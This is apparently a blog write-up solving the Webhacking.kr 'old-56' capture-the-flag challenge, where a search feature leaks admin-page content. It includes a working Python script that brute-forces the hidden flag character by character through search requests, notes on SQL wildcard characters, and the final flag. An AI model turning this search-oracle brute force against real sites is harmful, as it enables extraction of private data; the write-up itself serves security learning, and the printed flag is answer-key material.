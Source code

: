 ```yaml
---
layout: post
title: "[Webhacking.kr] Old-56 writeup"
categories: hacking writeup web
---
```


# Introduction

Link: https://webhacking.kr/challenge/web-33/

The challenge is quite easy to understand. You can not enter the admin page, you can enter the
guest page. You also have a search function to search for content in all pages.

![Main](/assets/images/old-56/main.png)

Let's try the search function by using content inside of `guest`

![Search](/assets/images/old-56/search.png)

# Let's find a way to get in

The first thing to try is SQL Injection. Didn't work.

The second thing to try is to find some kind of known vulnerabilty in `strpos` function.
I had a feeling that it might be using `strpos` for the search function. Nothing relevant found.

But one thing I forgot, the content inside admin page is very likely a flag. A search
with `flag{` as the query returned the admin page. An important clue!

![Flag Search](/assets/images/old-56/flag_search.png)

# Bruteforce the flag

It is obvious that the flag can be bruteforced in a matter of minutes. Let's write a short script

```python
import requests, string

cookies = {
    'PHPSESSID': '8sgmg9vml43qsn1gktg85jipj5',
}

headers = {
    'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    # 'Accept-Encoding': 'gzip, deflate, br',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'https://webhacking.kr',
    'Connection': 'keep-alive',
    'Referer': 'https://webhacking.kr/challenge/web-33/index.php',
    # 'Cookie': 'PHPSESSID=8sgmg9vml43qsn1gktg85jipj5;
    'Upgrade-Insecure-Requests': '1',
    'Sec-Fetch-Dest': 'document',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-Site': 'same-origin',
    'Sec-Fetch-User': '?1',
}

current = 'flag{'

def correct(c):
    data = {
    'search': current + c
    }

    response = requests.post('https://webhacking.kr/challenge/web-33/index.php',
                         cookies=cookies, headers=headers, data=data)

    return "admin" in response.text

def brute():
    global current
    while current[-1] != '}':
        last_correct = False
        print("trying ...")
        for c in list(string.ascii_lowercase + string.punctuation):
            print(f"{current + c}")
            if correct(c):
                current = current + c
                print(f"current: {current}")
                last_correct = True
                break

        if last_correct == False:
            print("no matches! stopping")
            break

brute()
```

After a couple of tries, I found that `%` was accepted in many places. So the result was `flag{himiko%a%cute%dont%hink%o%%`, which was close but not what I wanted.

So I decided to remove the `%` in the code, and tried again.

```python
#...
    for c in list(string.ascii_lowercase + string.punctuation.replace('%', '')):
#...
```

![Result1](/assets/images/old-56/result1.png)

Gotcha, you man of culture! But wait, that one was not correct either. Later, I found that the underscore character `_` was just like `%`, how annoying.

And after a bit of tuning, I found the correct flag!

`flag{himiko_toga_is_cute_dont_you_think_so?}`
